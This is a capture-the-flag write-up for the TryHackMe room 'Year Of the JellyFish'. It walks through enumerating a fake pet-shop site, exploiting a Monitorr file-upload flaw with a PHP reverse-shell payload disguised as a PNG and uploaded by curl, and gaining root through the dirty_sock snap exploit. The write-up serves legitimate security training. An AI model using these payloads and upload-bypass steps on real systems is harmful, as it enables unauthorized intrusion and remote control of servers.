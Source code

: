 ```yaml
---
title: Year Of the JellyFish - TryHackMe
author: Vishnu Sudhakaran
date: 2021-09-02 09:30:00 +0530
categories: [Boot2Root, TryHackMe]
tags: [ cve, box, privesc, linux, code ]
---
```


![](/assets/img/posts/jellyfish/chall.png)

Room: [https://tryhackme.com/room/yearofthejellyfish](https://tryhackme.com/room/yearofthejellyfish)

This article is about the room Year Of The JellyFish capture the flag created by [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle) on [TryHackMe](https://tryhackme.com/).

This box is part of an OSCP voucher giveaway. The prize is donated by [@q8fawazo](https://twitter.com/q8fawazo).

## Reconnaissance:

You will get a specific IP_Address of this machine, let's start with nmap scan.

```bash
nmap -sC -sV $IP
```

![](/assets/img/posts/jellyfish/nmap.png)

we can see 80, 443 are open, let's open it in browser. We can see port 80 is redirect to [https://robyns-petshop.thm/](https://robyns-petshop.thm/), also nmap detects multiple sub domains, so it will be a VirtualHost.

![](/assets/img/posts/jellyfish/dns.png)

So we need to add IP and Domains to the `/etc/hosts` file.

![](/assets/img/posts/jellyfish/hosts.png)

## Enumeration:

Let's go through the domains,

![](/assets/img/posts/jellyfish/1s.png)

![](/assets/img/posts/jellyfish/beta.png)

![](/assets/img/posts/jellyfish/dev.png)

![](/assets/img/posts/jellyfish/monitorr.png)

I started with `dirb` on [https://robyns-petshop.thm/](https://robyns-petshop.thm/), i got some directories that countains information about themes, plugins, etc.. bad luck :(

![](/assets/img/posts/jellyfish/dirb.png)

The *dev.robyns-petshop.thm* subdomain is appeared to be same as *robyns-petshop.thm*, and from *beta.robyns-petshop* domain nothing got suspicious.

After i visited the `https://monitorr.robyns-petshop.thm/` this something bugs me, and it was open source, there is an login portal on monitorr settings.

![](/assets/img/posts/jellyfish/monlogin.png)

I visited an [GitHub Repo](https://github.com/Monitorr/Monitorr/tree/master/assets/config/_installation/vendor) and found some interesting files.

![](/assets/img/posts/jellyfish/gitre.png)

Going through the source code of `_install.php`, it creates a empty database, after that we can create an account on `login.php`. and its perfectly worked in this server too. After login to monitor settings, there is an image upload option in services-configuration, we can create an reverse shell connection through file upload vulnerability, its has also have mime validation & extension checking, after some failed attempts, i'am able to bypass both with ".png.pHp" extension and get the reverse shell connection.

But when i try to access this room yesterday with this image upload vulnerability, it couldn't worked maybe the room owner fix that vulnerability. So let's go for another vulnerability.

When i search google for monitorr 1.7.6m exploit i got something interesting in [exploit database](https://www.exploit-db.com/exploits/48980).

![](/assets/img/posts/jellyfish/exp.png)

It was (EDB id: 48980) An unauthenticated RCE would be absolutely perfect exploit here.

Let's create a reverse shell payload.

```bash
echo -e $'\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php echo system("bash -c \'bash -i >& /dev/tcp/10.4.29.202/443 0>&1\'");' > an0n.png.pHp
```

Now we have to upload the reverse shell we created with `curl` command.

```bash
curl -k -F "fileToUpload=@./an0n.png.pHp" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"
```

To get the reverse shell.

```bash
curl -k https://monitorr.robyns-petshop.thm/assets/data/usrimg/an0n.png.php
```

Same time set listener on another tab.

```bash
nc -lvp 443
```

![](/assets/img/posts/jellyfish/flag11.png)

We successfully get the reverse shell thorough RCE. The first flag we can obtained from `/var/www/flag1.txt` file.

## Privilege Escalation:

It's time to root the machine. Here i used [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester).

It show us snap version was vulnerable to dirty_sock (CVE-2019–7304) exploit(EDB id: [46362](https://www.exploit-db.com/exploits/46362)). let's move in to /tmp directory.

![](/assets/img/posts/jellyfish/snpve.png)

![](/assets/img/posts/jellyfish/dirt.png)

Then get the exploit from [exploit-db](https://www.exploit-db.com/download/46362) with `wget` command, and give permission.

![](/assets/img/posts/jellyfish/wget.png)

Let's run the exploit, and it successfully exploited the machine!

![](/assets/img/posts/jellyfish/sock.png)

Now we can switch user with `su` command, username will be `dirty_sock` and password will be `dirty_sock`. After that go for sudo su, we will be root.

![](/assets/img/posts/jellyfish/rooot.png)

We can obtain root flag from `/root/root.txt`

### Thank you for reading my writeup! Hope you enjoyed it.

